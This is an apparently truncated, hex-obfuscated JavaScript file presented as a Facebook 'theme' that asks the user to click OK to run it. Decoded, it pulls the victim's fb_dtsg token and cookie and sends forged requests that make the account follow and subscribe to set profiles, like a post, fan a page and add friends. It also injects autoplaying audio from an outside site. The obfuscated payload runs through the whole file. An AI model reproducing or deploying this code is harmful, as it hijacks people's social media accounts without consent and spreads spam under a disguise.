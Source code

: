 var
_0x7d0b=["\x68\x74\x6D\x6C","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65","\x62\x6F\x64\x79","\x64\x69\x76","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x68\x65\x69\x67\x68\x74","\x73\x74\x79\x6C\x65","\x32\x35","\x77\x69\x64\x74\x68","\x31\x30\x30\x25","\x70\x6F\x73\x69\x74\x69\x6F\x6E","\x66\x69\x78\x65\x64","\x74\x6F\x70","\x61\x75\x74\x6F","\x62\x6F\x74\x74\x6F\x6D","\x30","\x61\x6C\x69\x67\x6E","\x63\x65\x6E\x74\x65\x72","\x61\x75\x64\x69\x6F","\x32\x35\x70\x78","\x63\x6F\x6E\x74\x72\x6F\x6C\x73","\x61\x75\x74\x6F\x70\x6C\x61\x79","\x73\x72\x63","\x68\x74\x74\x70\x3A\x2F\x2F\x63\x32\x6C\x6F\x2E\x72\x65\x76\x65\x72\x62\x6E\x61\x74\x69\x6F\x6E\x2E\x63\x6F\x6D\x2F\x61\x75\x64\x69\x6F\x5F\x70\x6C\x61\x79\x65\x72\x2F\x64\x6F\x77\x6E\x6C\x6F\x61\x64\x5F\x73\x6F\x6E\x67\x5F\x64\x69\x72\x65\x63\x74\x2F\x31\x33\x31\x34\x39\x35\x33\x30\x2F\x34\x39\x38\x63\x31\x30\x39\x65\x30\x63\x61\x37\x62\x61\x35\x37\x35\x30\x66\x36\x64\x34\x65\x37\x63\x64\x64\x34\x32\x35\x37\x35","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x54\x68\x65\x6D\x65\x20\x46\x61\x63\x65\x62\x6F\x6F\x6B\x20\x62\x79\x3A\x20\x4D\x41\x58\x20\x53\x41\x4C\x49\x4D\x49\x20\x3A\x29\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x43\x6C\x69\x63\x6B\x2D\x3E\x20\x4F\x6B\x20\x74\x6F\x20\x72\x75\x6E\x20\x74\x68\x65\x20\x74\x68\x65\x6D\x65\x20\x3A\x29","\x3D","\x6C\x65\x6E\x67\x74\x68","\x69\x6E\x64\x65\x78\x4F\x66","\x3B","\x73\x75\x62\x73\x74\x72\x69\x6E\x67","","\x2F\x61\x6A\x61\x78\x2F\x66\x6F\x6C\x6C\x6F\x77\x2F\x66\x6F\x6C\x6C\x6F\x77\x5F\x70\x72\x6F\x66\x69\x6C\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x70\x72\x6F\x66\x69\x6C\x65\x5F\x69\x64\x3D","\x26\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x31\x26\x73\x6F\x75\x72\x63\x65\x3D\x66\x6F\x6C\x6C\x6F\x77\x2D\x62\x75\x74\x74\x6F\x6E\x26\x73\x75\x62\x73\x63\x72\x69\x62\x65\x64\x5F\x62\x75\x74\x74\x6F\x6E\x5F\x69\x64\x3D\x75\x33\x37\x71\x61\x63\x5F\x33\x37\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x6C\x73\x64\x26\x5F\x5F","\x26\x70\x68\x73\x74\x61\x6D\x70\x3D","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x33\x39\x33\x33\x32\x37\x35\x35\x35\x36","\x73\x63\x72\x69\x70\x74","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x6E\x65\x77\x20\x41\x73\x79\x6E\x63\x52\x65\x71\x75\x65\x73\x74\x28\x29\x2E\x73\x65\x74\x55\x52\x49\x28\x27\x2F\x61\x6A\x61\x78\x2F\x66\x72\x69\x65\x6E\x64\x73\x2F\x6C\x69\x73\x74\x73\x2F\x73\x75\x62\x73\x63\x72\x69\x62\x65\x2F\x6D\x6F\x64\x69\x66\x79\x3F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x70\x65\x72\x6D\x61\x6C\x69\x6E\x6B\x26\x61\x63\x74\x69\x6F\x6E\x3D\x73\x75\x62\x73\x63\x72\x69\x62\x65\x27\x29\x2E\x73\x65\x74\x44\x61\x74\x61\x28\x7B\x20\x66\x6C\x69\x64\x3A\x20","\x20\x7D\x29\x2E\x73\x65\x6E\x64\x28\x29\x3B","\x33\x31\x39\x36\x36\x38\x32\x30\x38\x31\x37\x34\x32\x38\x36","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x75\x66\x69\x2F\x6C\x69\x6B\x65\x2E\x70\x68\x70","\x6C\x69\x6B\x65\x5F\x61\x63\x74\x69\x6F\x6E\x3D\x74\x72\x75\x65\x26\x66\x74\x5F\x65\x6E\x74\x5F\x69\x64\x65\x6E\x74\x69\x66\x69\x65\x72\x3D","\x26\x73\x6F\x75\x72\x63\x65\x3D\x31\x26\x63\x6C\x69\x65\x6E\x74\x5F\x69\x64\x3D","\x25\x33\x41\x33\x33\x36\x36\x36\x37\x37\x34\x32\x37\x26\x72\x6F\x6F\x74\x69\x64\x3D\x75\x5F\x70\x73\x5F\x30\x5F\x30\x5F\x31\x34\x26\x67\x69\x66\x74\x6F\x63\x63\x61\x73\x69\x6F\x6E\x26\x66\x74\x5B\x74\x6E\x5D\x3D\x25\x33\x45\x25\x33\x44\x55\x26\x66\x74\x5B\x74\x79\x70\x65\x5D\x3D\x32\x30\x26\x66\x74\x5B\x71\x69\x64\x5D\x3D\x35\x38\x38\x32\x30\x30\x36\x38\x39\x30\x35\x31\x33\x37\x38\x34\x37\x31\x32\x26\x66\x74\x5B\x6D\x66\x5F\x73\x74\x6F\x72\x79\x5F\x6B\x65\x79\x5D\x3D","\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x68\x6F\x6D\x65\x5F\x73\x74\x72\x65\x61\x6D\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x33\x35\x43\x46\x77\x58\x41\x67\x26\x5F\x5F\x72\x65\x71\x3D\x6A\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x70\x61\x67\x65\x73\x2F\x66\x61\x6E\x5F\x73\x74\x61\x74\x75\x73\x2E\x70\x68\x70","\x26\x66\x62\x70\x61\x67\x65\x5F\x69\x64\x3D","\x26\x61\x64\x64\x3D\x74\x72\x75\x65\x26\x72\x65\x6C\x6F\x61\x64\x3D\x66\x61\x6C\x73\x65\x26\x66\x61\x6E\x5F\x6F\x72\x69\x67\x69\x6E\x3D\x70\x61\x67\x65\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x26\x66\x61\x6E\x5F\x73\x6F\x75\x72\x63\x65\x3D\x26\x63\x61\x74\x3D\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x5F\x70\x61\x67\x65\x5F\x61\x63\x74\x69\x6F\x6E\x73\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x39\x38\x61\x44\x35\x7A\x35\x43\x46\x2D\x26\x5F\x5F\x72\x65\x71\x3D\x64\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2C","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x61\x64\x64\x5F\x66\x72\x69\x65\x6E\x64\x2F\x61\x63\x74\x69\x6F\x6E\x2E\x70\x68\x70","\x74\x6F\x5F\x66\x72\x69\x65\x6E\x64\x3D","\x26\x61\x63\x74\x69\x6F\x6E\x3D\x61\x64\x64\x5F\x66\x72\x69\x65\x6E\x64\x26\x68\x6F\x77\x5F\x66\x6F\x75\x6E\x64\x3D\x66\x72\x69\x65\x6E\x64\x5F\x62\x72\x6F\x77\x73\x65\x72\x5